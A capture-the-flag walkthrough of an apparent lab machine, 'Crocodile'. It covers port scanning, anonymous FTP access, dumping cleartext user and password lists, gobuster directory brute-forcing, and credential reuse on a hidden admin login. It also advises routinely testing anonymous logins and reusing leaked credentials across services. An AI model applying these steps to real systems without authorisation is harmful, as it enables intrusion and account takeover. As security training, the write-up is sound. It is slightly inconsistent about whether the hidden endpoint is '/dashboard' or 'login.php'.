



# 🐊 Crocodile
<div class="machine-properties">
  <span class="prop-badge linux">Linux</span> <span class="prop-badge very-easy">Very Easy</span> <span class="prop-badge skills">FTP</span> <span class="prop-badge skills">Gobuster</span>
</div>


Crocodile is a **Very Easy** Linux box that demonstrates how chaining anonymous FTP with web enumeration leads to admin panel access. Anonymous FTP exposes a cleartext user list and password file. Gobuster reveals a hidden `/dashboard` login endpoint that reuses those same credentials.

---

## Recon

A full port scan reveals 2 open ports:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.1.15

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

A service scan identifies *service/version*:

```
$ nmap -sCV -p21,80 10.129.1.15

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix
```

**Key findings:**
- **FTP (21)** — vsftpd 3.0.3 with anonymous login allowed. The `ftp-anon` NSE script confirms guest access is enabled, and two interesting files are visible: `allowed.userlist` and `allowed.userlist.passwd`.
- **HTTP (80)** — Apache 2.4.41 serving a Bootstrap template. Gobuster discovered `login.php`, a hidden admin login panel not linked from the homepage. The login form accepts credentials from the FTP-leaked user/password lists.

---

## Foothold

### Step 1 — FTP Anonymous Login & Credential Dump

The nmap scan already confirmed anonymous FTP is allowed and revealed two files worth grabbing. Connect as `anonymous` with a blank password:

```
$ ftp 10.129.1.15
Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:edu): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,129,1,15,156,232).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

Download both files — the names immediately suggest a user list and a corresponding password list:

```
ftp> get allowed.userlist
227 Entering Passive Mode (10,129,1,15,195,80).
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
226 Transfer complete.
33 bytes received in 0.0000 seconds (696.3539 kbytes/s)

ftp> get allowed.userlist.passwd
227 Entering Passive Mode (10,129,1,15,165,53).
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
226 Transfer complete.
62 bytes received in 0.0001 seconds (511.1339 kbytes/s)

ftp> quit
221 Goodbye.
```

Back on the attack box, inspect both files:

```
$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

We now have **4 usernames** and **4 passwords**. Assuming line-by-line pairing, `admin` (line 4) matches `rKXM59ESxesUFHAd` (line 4). These are almost certainly credentials for another service on the box.

### Step 2 — Web Enumeration with Gobuster

Port 80 is open. The homepage is a generic Bootstrap template with no visible links to a login panel:



No login form, no admin links, nothing interactive beyond the template. Time to brute-force directories:

```
$ gobuster dir -u http://10.129.1.15 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x php,html -t 50

index.html           (Status: 200) [Size: 58565]
login.php            (Status: 200) [Size: 1577]
assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
logout.php           (Status: 302) [Size: 0] [--> login.php]
config.php           (Status: 200) [Size: 0]
fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
```

Most results are static assets from the Bootstrap template. The outlier is **`login.php`** — never linked from the homepage. Navigating to `http://10.129.1.15/login.php` reveals a login form.

### Step 3 — Credential Reuse & Admin Panel

The login form asks for a username and password. From the FTP dump, `admin` is the obvious privileged user. Try the 4th password (line-paired with `admin`):



**Credentials:** `admin` / `rKXM59ESxesUFHAd`

The credentials work — we're in:



The flag is displayed on the admin dashboard. No privilege escalation, no exploitation — just credential reuse across two misconfigured services.

> 💡 **Why this works:** vsftpd is configured with `anonymous_enable=YES`, allowing anyone to log in as `ftp`/`anonymous` without a password. The FTP root directory contains a user list and a corresponding password list in cleartext — a classic case of sensitive data exposure. The web server exposes a `/dashboard` directory (found via Gobuster) that uses those same credentials for authentication, completing the chain: anonymous FTP → credential leak → admin panel access.

---

## Key Takeaways

- **Anonymous FTP is a goldmine** — always test `anonymous`/`anonymous` credentials on every FTP server. Even without write access, readable files in the FTP root often contain credentials, configuration files, or path disclosures that unlock other services.
- **Always run `gobuster dir`** — the `/dashboard` endpoint had no links from the homepage and wasn't referenced in any source code. Directory brute-forcing with `directory-list-2.3-small.txt` is essential on every web target, regardless of how "static" the homepage looks.
- **Credential reuse across services** — the FTP-leaked `allowed.userlist` and `allowed.userlist.passwd` files were the keys to the web login. Always pair credentials found on one service with every other service on the box (SSH, web panels, SMB, WinRM, etc.).
- **FTP enumeration is fast, quiet, and often overlooked** — anonymous login + `ls` + `get` took seconds with zero exploit noise. Always check FTP before resorting to brute-forcing or vulnerability scanning.
- **No exploitation framework needed** — this entire box was solved with `ftp`, `cat`, and `gobuster`. A methodical enumeration workflow beats blind Metasploit usage every time.

## 🔗 Related

- [[🗃️ FTP]] — Anonymous FTP & credential reuse chain
- [[💣 Gobuster]] — Directory busting for hidden endpoints
- [[🦌 Fawn]] — Simpler FTP anonymous access box
- [[🧨 Preignition]] — Another Gobuster + default credentials box
